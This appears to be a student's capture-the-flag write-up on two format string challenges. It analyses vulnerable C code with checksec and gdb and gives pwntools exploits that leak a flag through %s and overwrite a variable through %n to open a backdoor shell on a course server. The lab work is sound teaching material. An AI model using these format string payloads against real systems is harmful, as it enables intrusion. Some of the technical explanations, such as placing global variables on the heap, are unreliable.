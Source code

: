 # Format Strings

##First Flag

###File Analysis

As good practice, we start off by investigating what we're being given. Therefore we be analysing what's inside "_main.c_":

Looking inside the code we can see that it:

-Creates an array "_flag_" accessibable throughout the file whose size is given with _FLAG_BUFFER_SIZE_, which is 40.

```C
#define FLAG_BUFFER_SIZE 40 

char flag[FLAG_BUFFER_SIZE]; // file size is 40!
```

- Stores the _flag.txt_ content inside of the flag array.

```C
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}```

-Reads 32 bytes of _user input_, stores inside of the character array _buffer_ and then prints it.

```C

        char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```
-An _if_ statement that executes different messages in case we achieved in getting the flag or not.

```C
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```
###Execution Analysis

We will now be analysing how _main.c_ behaviour works on _program_ (which is _main.c_ compilled) with the command:

```bash
checksec --file=program
```

![Alt text](./images/ctf7-1.png)

We can see here that here that the binaries aren't randomize(is not a _PIE_, Position-Independent Executable), but there are canaries, which prevents buffer overflow attacks as they will be detected

Using that knowlegde, we can assume that we are going to use a _format string attack_ as we have a _printf_ that prints an input stored in a 32 byte buffer. 

When we run the program, whenever the function _load___flag_ it will put the flag into the the buffer which, as a global variable, will be stored in the heap. Using _dbg_ we can find out the memory address where the function return address. We will run in the console 
```Bash
gdb program
p load_flag # 
```

![Alt text](./images/ctf7-2.png)

So we now know that the return address is **_0x8049256_**.

We will now prepare the payload by making some changes to the given __exploit_example.py__.

```python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s" //transforms it into a string format

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

![Alt text](./images/ctf7-3.png)

Thus, the flag we get is **flag{a36ac6c2b6ecee59b102cf406c2e354d}**!

##Second Flag

Yet again, we are going to start off by running:

```bash
checksec --file=program
```

![Alt text](./images/ctf7-4.png)


As with the other program, we can there are cannaries and it is not a PIE.

As such we are going to analyse the behaviour of main.c! The main  difference is:

```C
if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else 
```
We can see that in this case, if the _key_ value is **0xbeef** then a bash is activated and we have access to the server, allowing us to view the contents of *flag.txt*. Therefore, we must manipulate the value of *key* (which is allocated in the heap as it a global variable), and we can use a format string attack through *'%n'*. But first we must know the address of *key*.

```bash
gdb program
p &key
```

![Alt text](./images/ctf7-5.png)

We can see that address of *key* is: **0x804b324**. Now we must convert 0xbeef to string format, which is 48879. Using this information we now alter the used the previous flag exploit by writting 48875 (48879 - 4) '%n'. So we get:

```Python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)


p.sendline(b"\x24\xb3\x04\x08%.48875x%1$n")
p.interactive()
```
![Alt text](./images/ctf7-6.png)

Thus the flag is: **flag{6ac96371637acd9b27d93579d9cbb888}**
